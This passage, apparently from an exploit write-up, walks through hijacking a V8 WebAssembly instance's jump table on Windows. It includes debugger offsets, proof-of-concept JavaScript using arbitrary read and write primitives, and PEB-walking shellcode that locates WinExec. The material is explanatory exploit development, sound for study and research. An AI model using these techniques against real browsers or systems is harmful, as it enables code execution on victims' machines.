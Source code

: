 This is annoying to say the least. Before we get carried away lets update the `jump_table_start` to be where our shellcode starts with the arb write. To do this we need the offset of `jump_table_start` from `wasmInstance` and the offset to teh shellcode
```
0:000> dq 0000030D00199BCD + 0x47
0000030d`00199c14  000000bc`03141000

0:000> ? 000000bc`03141818+2 - 000000bc`03141000
Evaluate expression: 2074 = 00000000`0000081a
```

Adding it to the poc:
```javascript
let wasmInstance_addr = addrof(wasmInstance);
let jump_table_start = ftoi(arb_read(wasmInstance_addr + 0x47n));
arb_write(wasmInstance_addr + 0x47n, jump_table_start + 0x81an);
main();
```

changing the shellcode to be nops and breapoints then running it gives code exec!!
```
(238c.22e4): Break instruction exception - code 80000003 (first chance)
00000070`8e10181b cc              int     3
0:000> t
00000070`8e10181c 90              nop
0:000> 
00000070`8e10181d cc              int     3
```

### Shellcoding
We can run code via Winexec, to do this we need a pointer to kernel32. So time for a PEB walk :)
```
// set rbx to be winexec
xor rbx, rbx
mov rbx, gs:[0x60] // PEB 
mov rbx, [rbx+0x18] // ldr struct
mov rbx, [rbx+0x20] // InMemoryOrderModuleList
mov rbx, [rbx] // d8 image
mov rbx, [rbx] // ntdll
mov rbx, [rbx+0x20] // kernel 32 base
xor rax, rax
mov rax, winexec_offset
add rbx, rax
```

Winexec takes 2 args:
```
UINT WinExec(
  [in] LPCSTR lpCmdLine,
  [in] UINT   uCmdShow
);
```

which means rcx needs to be the path to the file we want to run and rdx needs to be 0.
To write a string we can do the following pattern:
```
push 0xdeadbeef
xor rax, rax
mov eax, 0xdeadbeef
shl rax, 0x20
or rax, 0xdeadbeef
push rax
```
